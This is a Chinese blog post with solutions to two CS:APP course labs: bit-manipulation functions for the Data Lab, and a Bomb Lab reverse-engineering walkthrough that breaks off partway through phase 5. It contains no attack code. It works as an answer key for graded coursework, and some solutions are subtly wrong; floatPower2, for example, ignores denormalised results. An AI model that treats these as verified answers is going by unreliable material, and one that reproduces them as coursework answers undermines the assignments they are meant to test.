









本文记录中科大研究生课程——计算机系统的相关实验，使用的教材为《深入理解计算机系统》第3版。课程给的实验材料貌似用的是第2版的，额外添加了一些实验要求和说明，但是原理和思想基本都是一样的。

<!--more-->

# 实验1：位操作（Data Lab）

## 实验介绍

本实验考察计算机信息的表示，要求实现简单的位操作、逻辑运算、二进制补码和浮点函数，并且限制了可使用的 C 操作符和数量，有助于理解 C 数据类型的位级表示以及数据操作的位级行为。本实验总共包括位操作的15个编程题。

## 实验环境

| CPU         | Intel(R) Xeon(R) Silver 4110 CPU @ 2.10GHz |
| ----------- | ------------------------------------------ |
| 操作系统    | Ubuntu 20.04.3   (64位)                    |
| C/C++编译器 | gcc version 9.4.0                          |

## 实验要求

"bits.c"文件中包含需要实现的15个函数，文件中规定了实现每个函数需要的逻辑和算术操作符（规定数量）。

- 只能使用规定的操作符 `! ~ & ^ | + << >>`
- 不能使用循环或者条件语句
- 不能使用超过8位的常数 `0xff`

## 实验思路

### 1. bitXor

本题要求使用按位与`&`和按位取反`~`实现按位异或。

```c
/*
 * bitXor - x^y using only ~ and &
 *   Example: bitXor(4, 5) = 1
 *   Legal ops: ~ &
 *   Max ops: 14
 *   Rating: 1
 */
int bitXor(int x, int y)
{ 
  return ~(~x & ~y) & ~(x & y);
}
```

异或就是当参与运算的两个二进制数不同时结果才为1，其他情况为0。

根据德摩根定律（参考离散数学集合论知识）：


推导出：



转换为C代码：

```c
x^y=~(~x&~y)&~(x&y)
```

### 2. tmin

求int类型的最小值。

```c
/*
 * tmin - return minimum two's complement integer
 *   Legal ops: ! ~ & ^ | + << >>
 *   Max ops: 4
 *   Rating: 1
 */
int tmin(void)
{
    return 1<<31;
}
```

C 语言中 `int` 类型是32位，即4字节数 。`int` 类型的最小值，即最高位符号位为 1，其他位均为 0，所以只需要将 1 左移 31 位。

### 3. isTmax

判断输入值是否为 int 类型的最大值。

```c
/*
 * isTmax - returns 1 if x is the maximum, two's complement number,
 *     and 0 otherwise
 *   Legal ops: ! ~ & ^ | +
 *   Max ops: 10
 *   Rating: 1
 */
int isTmax(int x)
{
  return !((~(x+1)^x))&!!(x+1);
}
```

考虑四位的最大值`x=0111` ，x+1之后就会变成`1000` ，对`1000` 取非 `0111` 就会重新变回x值，自己与自己异或会得到0，所以可以用异或来判断`~(x+1)`与`x`是否相等，从而判断是否为x最大值。

> 小技巧：等号的操作可以直接利用`a == b` 等价于 `!(a ^b)`

这里有一个例外就是`x=-1` ，由于`-1=1111` 他利用上面的式子判断也符合，故要特判-1 利用`!!(x+1)` 这个操作-1和最大值并不相同。

### 4. allOddBits

判断所有奇数位是否都为1，这里的奇数指的是位的阶级是2的几次幂。

```c
/*
 * allOddBits - return 1 if all odd-numbered bits in word set to 1
 *   where bits are numbered from 0 (least significant) to 31 (most significant)
 *   Examples allOddBits(0xFFFFFFFD) = 0, allOddBits(0xAAAAAAAA) = 1
 *   Legal ops: ! ~ & ^ | + << >>
 *   Max ops: 12
 *   Rating: 2
 */
int allOddBits(int x)
{
  int mask = 0xAA + (0xAA << 8);
  mask = mask + (mask << 16); // 迭代两次得到奇数位全1的掩码
  return !((mask & x) ^ mask); // 即判断 mask&x == mask
}
```

首先要构造掩码，使用移位运算符构造出奇数位全1的数 `mask` ，然后获取输入 `x` 值的奇数位，其他位清零（`mask&x`），然后与 `mask` 进行异或操作，若相同则最终结果为0，然后返回其值的逻辑非。

### 5. negate

不使用 `-` 操作符，求 `-x` 值。

```c
/*
 * negate - return -x
 *   Example: negate(1) = -1.
 *   Legal ops: ! ~ & ^ | + << >>
 *   Max ops: 5
 *   Rating: 2
 */
int negate(int x)
{
  // 补码等于反码加1
  return ~x+1;
}
```

补码实际上是一个阿贝尔群，满足性质公式：`A + ~A = -1`和`A + neg A =0`，利用这两个式子我们可以得到 `neg A = ~A + 1`，对于 `x`，`-x` 是其补码，所以 `-x` 可以通过对 `x` 取反加1得到。

### 6. isAsciiDigit

计算输入值是否是数字 0-9 的 `ASCII` 值，即计算 `x` 是否在 0x30 ~ 0x39 范围内。

```c
/*
 * isAsciiDigit - return 1 if 0x30 <= x <= 0x39 (ASCII codes for characters '0' to '9')
 *   Example: isAsciiDigit(0x35) = 1.
 *            isAsciiDigit(0x3a) = 0.
 *            isAsciiDigit(0x05) = 0.
 *   Legal ops: ! ~ & ^ | + << >>
 *   Max ops: 15
 *   Rating: 3
 */
int isAsciiDigit(int x)
{
  return !((x & 0xf0) ^ 0x30) & !(((x & 0x0f) + 6) >> 4) & !(x & (~0xff));
}
```

分别对低位和高位字节进行判断：

```c
// 判断 低位第2字节 是否等于0x30 是则返回0
int res2 = (x & 0xf0)^0x30;

// 判断 低位第1字节 在+6以后是否不进位 不进位说明在0~9之间 是则返回0
int res1 = ((x & 0x0f) + 6) >> 4;

// 判断其他高位字节 是否等于0 是则返回0
int res3 = x & (~0xff);s

// 最后综合在一起
return !res1 & !res2 & !res3;
```

### 7. conditional

实现类似`x?y:z `的条件计算。

```c
/*
 * conditional - same as x ? y : z
 *   Example: conditional(2,4,5) = 4
 *   Legal ops: ! ~ & ^ | + << >>
 *   Max ops: 16
 *   Rating: 3
 */
int conditional(int x, int y, int z)
{
  int mask = (!x)-1;
  return (y | ~mask) & (z | mask) ;
}
```

`x?y:z `表示当x为0时返回y，当x不为0时返回z；

（1）先使用`！`对`x`进行判断，得到布尔值0或1，再减1可分别得到`0xffffffff`和`0x0`

（2）构造`y | ~mask`，此时当mask=`0xffffffff`时取y，当mask=`0x0`时取`0xffffffff`;对称构造`z | mask`,此时当mask=`0xffffffff`时取`0xffffffff`，当mask=`0x0`时取z;用`&`连接即可满足条件。

### 8. isLessOrEqual

实现小于等于比较。

```c
/*
 * isLessOrEqual - if x <= y  then return 1, else return 0
 *   Example: isLessOrEqual(4,5) = 1.
 *   Legal ops: ! ~ & ^ | + << >>
 *   Max ops: 24
 *   Rating: 3
 */
int isLessOrEqual(int x, int y)
{
  // 获取x和y的符号值 默认是算术右移 负数----1111 正数-----0000
  int sx = x >> 31;
  int sy = y >> 31;
  // 判断符号是否相同  相同----0000 不同-----1111
  int mask = sx ^ sy;
  // 在符号相同时 判断y-x值的符号 y<x---0000---0 y>=x---1111---1
  int sm = (y + (~x + 1)) >> 31;
  // 符号不同时 判断sx sx=1111---x<y---1  sx=0000----x>y---0
  return !!((mask & sx) | (~mask & ~sm));
}
```

### 9. logicalNeg

实现逻辑非运算。

```c
/*
 * logicalNeg - implement the ! operator, using all of
 *              the legal operators except !
 *   Examples: logicalNeg(3) = 0, logicalNeg(0) = 1
 *   Legal ops: ~ & ^ | + << >>
 *   Max ops: 12
 *   Rating: 4
 */
int logicalNeg(int x)
{
  return ~((x | (~x + 1)) >> 31) & 1;
}
```

0与其他整数的区别是，0的负数仍然为0，而其他整数求负数后符号改变。这里要考虑一个特例，当x为最小值`0x80000000`时，x的负数仍然为最小值，最高位虽然不变但是仍为1。综上，除0以外，x和其负数的最高位中必有一个是1。

int类型中负数用补码表示，求补码即反码加一，构造`(x | (~x + 1))`操作，只有`x=0`时最高位保持 0，利用这一点，求反后右移保留最高位，检测该位是否为 1 就可以实现逻辑非。

### 10. howManyBits

计算最少需要多少位可以用补码表示法来表示数`x`。

```c
/* howManyBits - return the minimum number of bits required to represent x in
 *             two's complement
 *  Examples: howManyBits(12) = 5
 *            howManyBits(298) = 10
 *            howManyBits(-5) = 4
 *            howManyBits(0)  = 1
 *            howManyBits(-1) = 1
 *            howManyBits(0x80000000) = 32
 *  Legal ops: ! ~ & ^ | + << >>
 *  Max ops: 90
 *  Rating: 4
 */
int howManyBits(int x)
{
  int sign = x >> 31;
  int b16, b8, b4, b2, b1, b0;
  x = (sign & ~x) | (~sign & x);
  b16 = !!(x >> 16) << 4;
  x = x >> b16;
  b8 = !!(x >> 8) << 3;
  x = x >> b8;
  b4 = !!(x >> 4) << 2;
  x = x >> b4;
  b2 = !!(x >> 2) << 1;
  x = x >> b2;
  b1 = !!(x >> 1);
  x = x >> b1;
  b0 = x;
  return b16 + b8 + b4 + b2 + b1 + b0 + 1;
}
```

如果是正数，寻找最高位1出现的位置，然后加上一位符号位即可。如果是负数的话，只需要知道最高位 0 出现的位置，再添加一个符号位。所以负数可以先对其取反，然后按照正数操作。

寻找过程为 2 分法，利用`!!(x >> bits)`来判断该段是否有 1。有则左移至该段，否则不移动即另一端。注意最后 2 位的情况，`11`和`10`都会使`ans1 = 1`且`ans0 = 1`，事实上只有全 0（数 0）的情况会使`ans0 = 0`。最后注意需要加上一个符号位，最终答案把移位结果累加`ans16 + ans8 + ans4 + ans2 + ans1 + ans0 + 1`。

### 11. floatScale2

实现浮点数乘 2。

```c
/*
 * floatScale2 - Return bit-level equivalent of expression 2*f for
 *   floating point argument f.
 *   Both the argument and result are passed as unsigned int's, but
 *   they are to be interpreted as the bit-level representation of
 *   single-precision floating point values.
 *   When argument is NaN, return argument
 *   Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
 *   Max ops: 30
 *   Rating: 4
 */
unsigned floatScale2(unsigned uf)
{
  // 分别计算 指数位 符号位 有效位
  int sign = (1 << 31) & uf;   // 不参与运算 掩码保留原位置
  int exp = (uf >> 23) & 0xff; // 参与运算 移到最右端
  int frac = uf & 0x7fffff;    // 参与运算
  // 分三种情况讨论
  if (exp == 0xff) // NaN
    return uf;
  if (exp == 0x00) // mult 2
    return (uf << 1) | sign;
  exp = exp + 1;
  if (exp == 0xff) // overflow Nan
    return 0x7f800000 | sign;
  else
    return (exp << 23) | sign | frac;
}
```

IEEE标准32位浮点数格式为：最高位 1 位为**符号位**（sign），8 为为**指数位**（exp），剩下的 23 位为**有效位**（frac）。

根据浮点数范围，浮点数乘2需要分三种情况讨论：

- `exp == 0xff`：表示NaN ，无穷大，乘2仍然返回原参数；
- `exp == 0x00`：非规格数，这时候 frac 无起始 1，乘2即将 frac 部分左移 1 位，同时还需要考虑符号，整体运算等价于`(uf << 1) | sign`
- `exp == others`： 规格化情况，先增加指数位，注意这时候判断是否为 0xff 达到无穷大。按位模式组合成新的浮点数输出即可`(exp << 23) | sign | frac`。

### 12. floatFloat2Int

将单精度浮点数转化为int类型整数。

```c
/*
 * floatFloat2Int - Return bit-level equivalent of expression (int) f
 *   for floating point argument f.
 *   Argument is passed as unsigned int, but
 *   it is to be interpreted as the bit-level representation of a
 *   single-precision floating point value.
 *   Anything out of range (including NaN and infinity) should return
 *   0x80000000u.
 *   Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
 *   Max ops: 30
 *   Rating: 4
 */
int floatFloat2Int(unsigned uf)
{
  int sign = (1 << 31) & uf;   // 不参与运算 掩码保留原位置
  int exp = (uf >> 23) & 0xff; // 参与运算 移到最右端
  int frac = uf & 0x7fffff;    // 参与运算
  if (exp == 0xff)             // NaN or infinity
    return 0x80000000u;
  else if (exp == 0x00) // 非规格化数字都是小于1的数 直接返回0
    return 0u;
  else // 规格化数字
  {
    int frac1 = 0x800000 | frac; // 补充小数部分隐含的1
    int exp1 = exp - 127;        // 减去偏移值得到真实的移码
    // 超过范围的直接返回
    if (exp1 > 31)
      return 0x80000000u;
    else if (exp1 < 0)
      return 0u;
    // 在int表示范围内 判断移位方向
    if (exp1 > 23)
      frac1 = frac1 << (exp1 - 23);
    else
      frac1 = frac1 >> (23 - exp1);
    // 根据符号分别返回
    if (sign) 
      return ~frac1 + 1; // 负数则返回其补码
    else
      return frac1;
  }
}
```

分三种情况讨论：

- `exp == 0xff`：表示NaN 或无穷大，直接返回最大值`0x80000000`；
- `exp == 0x00`：非规格化数字，都是小于1的数，直接返回0；
- `exp == others`： 规格化情况，先补充隐含的1，frac变为24位，减去偏移值得到真实的移码exp1。
  - exp1大于31或者小于0都超过int表示范围，直接返回0。
  - frac相当于已经左移了23位，需要再判断exp1与23的大小，大于23则还需要左移（exp1-23）位，小于则需要右移（23-exp1）位。
  - 最后根据uf的符号分别返回，正数直接返回移位后的数，负数则返回其补码。

### 13. floatPower2

计算2.0的x次方。

```c
/*
 * floatPower2 - Return bit-level equivalent of the expression 2.0^x
 *   (2.0 raised to the power x) for any 32-bit integer x.
 *
 *   The unsigned value that is returned should have the identical bit
 *   representation as the single-precision floating-point number 2.0^x.
 *   If the result is too small to be represented as a denorm, return
 *   0. If too large, return +INF.
 *
 *   Legal ops: Any integer/unsigned operations incl. ||, &&. Also if, while
 *   Max ops: 30
 *   Rating: 4
 */

unsigned floatPower2(int x)
{
  if (x > 127)
    return 0xff << 23;
  else if (x < -126)
    return 0;
  else
    return (x + 127) << 23;
}
```


## 实验结果



## 补充

- 编译时一直有个警告：

  

  在"btest.c"文件中对arg_test_range[1]初始化即可解决。

  ```c
  	/* Sanity check on the number of args */
  	if (args < 0 || args > 3)
  	{
  		printf("Configuration error: invalid number of args (%d) for function 	%s\n", args, t->name);
  		exit(1);
  	}	
  	arg_test_range[1] = 0; //添加
  
  	/* Assign range of argument test vals so as to conserve the total
  	   number of tests, independent of the number of arguments */
  	if (args == 1)
  	{
  		arg_test_range[0] = TEST_RANGE;
  	}
  	else if (args == 2)
  	{
  		arg_test_range[0] = pow((double)TEST_RANGE, 0.5); /* sqrt */
  		arg_test_range[1] = arg_test_range[0];
  	}
  ```

- 测试时最后一题一直显示超时，将makefile里的m32改位m64，就可以了。

# 实验2：二进制炸弹（Bomb Lab）

## 实验介绍

二进制炸弹是一个包含一系列阶段的可执行程序，每个阶段需要你在`stdin`上输入一个特定的字符串。如果你输入的字符串正确，那么这个阶段就被成功拆除，炸弹进入下一阶段。否则，炸弹会爆炸，并输出"BOOM!!!",然后终止。当所有的阶段都被成功拆除后炸弹就被拆除。

## 实验要求

> 根据“学号后三位%47”领取自己的代码包 

## 实验思路

准备工作: 得到汇编代码

```shell
objdump -d bomb >> bomb.s
```

### Phase 1

```assembly
08048b80 <phase_1>:
 8048b80:	55                   	push   %ebp
 8048b81:	89 e5                	mov    %esp,%ebp
 8048b83:	83 ec 08             	sub    $0x8,%esp
 8048b86:	c7 44 24 04 b8 99 04 	movl   $0x80499b8,0x4(%esp)
 8048b8d:	08 
 8048b8e:	8b 45 08             	mov    0x8(%ebp),%eax
 8048b91:	89 04 24             	mov    %eax,(%esp)
 8048b94:	e8 66 05 00 00       	call   80490ff <strings_not_equal> 
 8048b99:	85 c0                	test   %eax,%eax
 8048b9b:	74 05                	je     8048ba2 <phase_1+0x22>
 8048b9d:	e8 24 0b 00 00       	call   80496c6 <explode_bomb>
 8048ba2:	c9                   	leave  
 8048ba3:	c3                   	ret    
```

这段程序调用了两个函数，根据名字可以猜测函数的作用。`strings_not_equal`函数，是比较两个字符串是否相等，然后测试函数的返回值，如果不为0则调用`explode_bomb`程序引爆炸弹。所以问题是怎么找到对比的字符串。可以看到，在第5行，调用`strings_not_equal`函数前程序为其分配了一个地址空间`0x80499b8`，猜测该地址可能为函数`strings_not_equal`的参数地址，也就是有可能是比对字符串的起始地址。打印地址内容：

```shell
(gdb) x/s 0x80499b8
0x80499b8:      "The future will be better tomorrow."
```

即可得到第一个炸弹的答案:

```shell
The future will be better tomorrow.
```

### Phase 2

```assembly
08048ba4 <phase_2>:
 8048ba4:	55                   	push   %ebp
 8048ba5:	89 e5                	mov    %esp,%ebp
 8048ba7:	83 ec 28             	sub    $0x28,%esp
 8048baa:	8d 45 e4             	lea    -0x1c(%ebp),%eax
 8048bad:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048bb1:	8b 45 08             	mov    0x8(%ebp),%eax
 8048bb4:	89 04 24             	mov    %eax,(%esp)
 8048bb7:	e8 b0 04 00 00       	call   804906c <read_six_numbers> # 读6个数字
 8048bbc:	c7 45 fc 01 00 00 00 	movl   $0x1,-0x4(%ebp) # i=1
 8048bc3:	eb 1e                	jmp    8048be3 <phase_2+0x3f>
 8048bc5:	8b 45 fc             	mov    -0x4(%ebp),%eax  # a=i
 8048bc8:	8b 54 85 e4          	mov    -0x1c(%ebp,%eax,4),%edx # d=M[base+4*i-28] A[i-7]
 8048bcc:	8b 45 fc             	mov    -0x4(%ebp),%eax # a=i
 8048bcf:	48                   	dec    %eax # a=i-1
 8048bd0:	8b 44 85 e4          	mov    -0x1c(%ebp,%eax,4),%eax # a=M[base+4*(i-1)-4*7] A[i-8]
 8048bd4:	83 c0 05             	add    $0x5,%eax #a=a+5
 8048bd7:	39 c2                	cmp    %eax,%edx #cmp A[i-7]:(A[i-8]+5)
 8048bd9:	74 05                	je     8048be0 <phase_2+0x3c> #if = goto 8048be0
 8048bdb:	e8 e6 0a 00 00       	call   80496c6 <explode_bomb>
 8048be0:	ff 45 fc             	incl   -0x4(%ebp) 
 8048be3:	83 7d fc 05          	cmpl   $0x5,-0x4(%ebp) # comp i:5
 8048be7:	7e dc                	jle    8048bc5 <phase_2+0x21> # if <= goto 8048bc5
 8048be9:	c9                   	leave  
 8048bea:	c3                   	ret    
```

有一个`read_six_numbers`的函数，猜测会从输入中读取六个数字。阅读中间的反汇编代码，判断是比较相邻输入的差是否为 5。所以只要满足+5 的等差数列就是符合条件的正确答案。

```shell
5 10 15 20 25 30
```

### Phase 3

```assembly
08048beb <phase_3>:
 8048beb:	55                   	push   %ebp
 8048bec:	89 e5                	mov    %esp,%ebp
 8048bee:	83 ec 38             	sub    $0x38,%esp
 8048bf1:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
 8048bf8:	8d 45 f0             	lea    -0x10(%ebp),%eax
 8048bfb:	89 44 24 10          	mov    %eax,0x10(%esp)
 8048bff:	8d 45 ef             	lea    -0x11(%ebp),%eax
 8048c02:	89 44 24 0c          	mov    %eax,0xc(%esp)
 8048c06:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048c09:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c0d:	c7 44 24 04 dc 99 04 	movl   $0x80499dc,0x4(%esp)
 8048c14:	08 
 8048c15:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c18:	89 04 24             	mov    %eax,(%esp)
 8048c1b:	e8 48 fc ff ff       	call   8048868 <sscanf@plt>
 8048c20:	89 45 f8             	mov    %eax,-0x8(%ebp)			# 返回参数值
 8048c23:	83 7d f8 02          	cmpl   $0x2,-0x8(%ebp) 			# cmp x:2
 8048c27:	7f 05                	jg     8048c2e <phase_3+0x43> 	# 参数大必须大于2
 8048c29:	e8 98 0a 00 00       	call   80496c6 <explode_bomb> 
 8048c2e:	8b 45 f4             	mov    -0xc(%ebp),%eax 
 8048c31:	89 45 dc             	mov    %eax,-0x24(%ebp)
 8048c34:	83 7d dc 07          	cmpl   $0x7,-0x24(%ebp) # 第一个参数必须小于7
 8048c38:	0f 87 c2 00 00 00    	ja     8048d00 <phase_3+0x115>
 8048c3e:	8b 55 dc             	mov    -0x24(%ebp),%edx
 8048c41:	8b 04 95 e8 99 04 08 	mov    0x80499e8(,%edx,4),%eax # 根据第一个参数计算跳转地址
 8048c48:	ff e0                	jmp    *%eax
 8048c4a:	c6 45 ff 74          	movb   $0x74,-0x1(%ebp) # 参数1为0跳转到这里，这里的0x74作为第2个参数对比
 8048c4e:	8b 45 f0             	mov    -0x10(%ebp),%eax
 8048c51:	3d 66 03 00 00       	cmp    $0x366,%eax  	# 第三个参数与0x366比较
 8048c56:	0f 84 ad 00 00 00    	je     8048d09 <phase_3+0x11e>
 8048c5c:	e8 65 0a 00 00       	call   80496c6 <explode_bomb>
 8048c61:	e9 a3 00 00 00       	jmp    8048d09 <phase_3+0x11e>
 .......
 8048d09:	0f b6 45 ef          	movzbl -0x11(%ebp),%eax # 第2个参数与0x74比较，即116
 8048d0d:	38 45 ff             	cmp    %al,-0x1(%ebp)
 8048d10:	74 05                	je     8048d17 <phase_3+0x12c>
 8048d12:	e8 af 09 00 00       	call   80496c6 <explode_bomb>
 8048d17:	c9                   	leave  
 8048d18:	c3                   	ret    
```

第16行调用了sscanf函数输入，sscanf函数的声明如下：

```c
int sscanf(const char *str, const char *format, ...);
//str:数据源
//format:格式化字符串
//sscanf从字符串读取格式化输入，如果成功，该函数返回成功匹配和赋值的个数。    
```

由此猜测第12行的`0x80499dc`应该是格式化字符串，作为参数传递给sscanf函数，打印该地址的字符串内容：

```shell
(gdb) x/s 0x80499dc
0x80499dc:      "%d %c %d"
```

可以看到要求输入3个参数，且格式为`"%d %c %d"`。再阅读后面的反汇编代码，可以知道第一个参数必须小于7，且程序依据第一个参数计算跳转地址，为方便起见，直接设置第一个参数为0，直接跳转到第一个判断条件；第一个判断条件比较参数3是否为`0x366`，即870；同时这里还将`0x74`保存到了栈`-0x1(%ebp)`中，是为了与参数2比较。因为参数2为char类型，使用ascii字符，116表示的字符为`t`；所以最后输入：

```shell
0 t 870
```

### Phase 4

```assembly
08048d48 <phase_4>:
 8048d48:	55                   	push   %ebp
 8048d49:	89 e5                	mov    %esp,%ebp
 8048d4b:	83 ec 28             	sub    $0x28,%esp
 8048d4e:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048d51:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048d55:	c7 44 24 04 08 9a 04 	movl   $0x8049a08,0x4(%esp)
 8048d5c:	08 
 8048d5d:	8b 45 08             	mov    0x8(%ebp),%eax
 8048d60:	89 04 24             	mov    %eax,(%esp)
 8048d63:	e8 00 fb ff ff       	call   8048868 <sscanf@plt>
 8048d68:	89 45 fc             	mov    %eax,-0x4(%ebp)
 8048d6b:	83 7d fc 01          	cmpl   $0x1,-0x4(%ebp)
 8048d6f:	75 07                	jne    8048d78 <phase_4+0x30>
 8048d71:	8b 45 f4             	mov    -0xc(%ebp),%eax
 8048d74:	85 c0                	test   %eax,%eax
 8048d76:	7f 05                	jg     8048d7d <phase_4+0x35>
 8048d78:	e8 49 09 00 00       	call   80496c6 <explode_bomb>
 8048d7d:	8b 45 f4             	mov    -0xc(%ebp),%eax
 8048d80:	89 04 24             	mov    %eax,(%esp)
 8048d83:	e8 91 ff ff ff       	call   8048d19 <func4>
 8048d88:	89 45 f8             	mov    %eax,-0x8(%ebp)
 8048d8b:	81 7d f8 00 5f 37 00 	cmpl   $0x375f00,-0x8(%ebp) 
 8048d92:	74 05                	je     8048d99 <phase_4+0x51>
 8048d94:	e8 2d 09 00 00       	call   80496c6 <explode_bomb>
 8048d99:	c9                   	leave  
 8048d9a:	c3                   	ret   
```

与上一题相同，这里页使用了sscanf函数，找到格式字符串地址`0x8049a08`：

```shell
(gdb) x/s 0x8049a08
0x8049a08:      "%d"
```

在判断了匹配参数是否大于1之后，程序在第21行调用了函数func4对输入进行计算，并将返回值与`0x375f00`比较，如果相等则返回。func4反汇编代码如下：

```assembly
08048d19 <func4>:
 8048d19:	55                   	push   %ebp
 8048d1a:	89 e5                	mov    %esp,%ebp
 8048d1c:	83 ec 08             	sub    $0x8,%esp
 8048d1f:	83 7d 08 01          	cmpl   $0x1,0x8(%ebp) 	# 比较参数x是否大于1
 8048d23:	7f 09                	jg     8048d2e <func4+0x15> 
 8048d25:	c7 45 fc 01 00 00 00 	movl   $0x1,-0x4(%ebp) 	# return 1
 8048d2c:	eb 15                	jmp    8048d43 <func4+0x2a>
 8048d2e:	8b 45 08             	mov    0x8(%ebp),%eax 	# Get x
 8048d31:	48                   	dec    %eax 			# x=x-1;
 8048d32:	89 04 24             	mov    %eax,(%esp)
 8048d35:	e8 df ff ff ff       	call   8048d19 <func4> 	# 递归调用func4(x-1)
 8048d3a:	89 c2                	mov    %eax,%edx 	   	# d=func4(x-1)
 8048d3c:	0f af 55 08          	imul   0x8(%ebp),%edx 	# d=d*x
 8048d40:	89 55 fc             	mov    %edx,-0x4(%ebp)
 8048d43:	8b 45 fc             	mov    -0x4(%ebp),%eax 	# return x*func4(x-1)
 8048d46:	c9                   	leave  
 8048d47:	c3                   	ret    
```

通过分析func4的反汇编代码可知，该函数为一个递归函数，计算x!

```c
int func4(int x){
    if(x<=1)
        return 1;
    return x*func4(x-1);
}
```

因为`10!=3628800`，即`0x375f00 `，所以答案：

```shell
10
```

### Phase 5

```assembly
08048d9b <phase_5>:
 8048d9b:	55                   	push   %ebp
 8048d9c:	89 e5                	mov    %esp,%ebp
 8048d9e:	83 ec 38             	sub    $0x38,%esp
 8048da1:	8d 45 e8             	lea    -0x18(%ebp),%eax  	# y in M[-0x18(%ebp)]
 8048da4:	89 44 24 0c          	mov    %eax,0xc(%esp)
 8048da8:	8d 45 ec             	lea    -0x14(%ebp),%eax 	# x in M[-0x14(%ebp)]
 8048dab:	89 44 24 08          	mov    %eax,0x8(%esp)
